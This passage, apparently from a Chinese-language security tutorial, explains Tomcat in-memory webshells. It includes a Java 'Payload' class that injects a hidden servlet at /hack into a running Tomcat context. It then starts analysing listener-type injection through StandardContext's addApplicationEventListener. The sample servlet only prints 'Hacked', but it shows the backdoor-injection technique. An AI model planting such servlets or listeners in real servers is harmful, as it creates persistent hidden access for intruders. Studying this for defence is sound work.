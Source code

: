 接下来直接写Payload，加载内存马后访问`http://127.0.0.1:8003/hello`出现Hacked字样

```java
//Payload
import org.apache.catalina.Context;
import org.apache.catalina.Wrapper;
import org.apache.catalina.startup.Tomcat;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

public class Hack {
    public Hack(Context context) {
        HttpServlet hackServlet = new HttpServlet(){
            protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
                response.setContentType("text/html");
                PrintWriter out = response.getWriter();
                out.println("Hacked");
            }
        };
        Wrapper wrapper = new Tomcat.ExistingStandardWrapper(hackServlet);
        wrapper.setName("hackServlet");
        context.addChild(wrapper);
        context.addServletMappingDecoded("/hack","hackServlet");
    }
}

```

Servlet 更加详细具体流程，笔者后续更新

## [](#header-31)1.1.3 listener型内存马

对于 listener 内存马，笔者在流程上简述就行了，以下以 ServletRequestListener 为例(简称为 listener)  

只需要获取 StandardContext 后再调用 StandardContext.addApplicationEventListener(new ServletRequestListener(){}) 即可   

而这个 addApplicationEventListener 到底干了什么呢？我们详细分析探究一下.  
直接跟进 addApplicationEventListener

```java
//源码分析
public class StandardContext extends ContainerBase implements Context, NotificationEmitter {

    private List<Object> applicationEventListenersList = new CopyOnWriteArrayList();

    //applicationEventListenersList 的添加方法
    public void addApplicationEventListener(Object listener) {
        this.applicationEventListenersList.add(listener);
    }

    //applicationEventListenersList 的get方法
    //跟进 getApplicationEventListeners
    public Object[] getApplicationEventListeners() {
        return this.applicationEventListenersList.toArray();
    }

}
```
